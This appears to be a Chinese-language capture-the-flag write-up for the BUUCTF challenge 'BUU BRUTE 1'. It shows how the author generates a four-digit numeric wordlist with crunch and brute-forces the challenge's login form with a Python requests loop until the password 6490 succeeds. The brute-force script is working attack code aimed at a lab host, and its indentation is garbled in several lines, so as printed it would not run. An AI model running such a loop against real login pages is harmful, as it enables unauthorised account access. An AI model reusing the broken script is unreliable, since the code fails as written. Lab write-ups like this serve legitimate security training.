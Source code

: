 ```yaml
---
title: BUUCTF - BUU BRUTE 1 Writeup
cover: cover.png
date: 2022-01-30 16:10:24
description: BUU BRUTE 1
tags:
- writeup
- buuctf
categories:
- writeups
---
```


进入题目url查看，是个登录界面，先输入admin/admin发现提示

```html
密码错误，为四位数字。
```

而且是get请求，结合题目，简单爆破

## crunch生成字典

```bash
crunch 4 4 -f /usr/share/crunch/charset.lst numeric -o adminpass.txt
```

## 爆破脚本

```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-
import requests
import time

f = open('./adminpass.txt','r')
payload = f.readline().strip()
while payload:
  print('\rpayload:'+payload,end="")
  res = requests.get("http://d60d9c19-efe0-4b6a-82c5-0d238a94a44b.node4.buuoj.cn:81/?username=admin&password="+payload)
  time.sleep(0.2)
  if '密码错误' not in res.text:
    print(res.text)
      f.close()
      break
    else:
      payload = f.readline().strip()
```

payload:6490登录成功。flag{xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx}

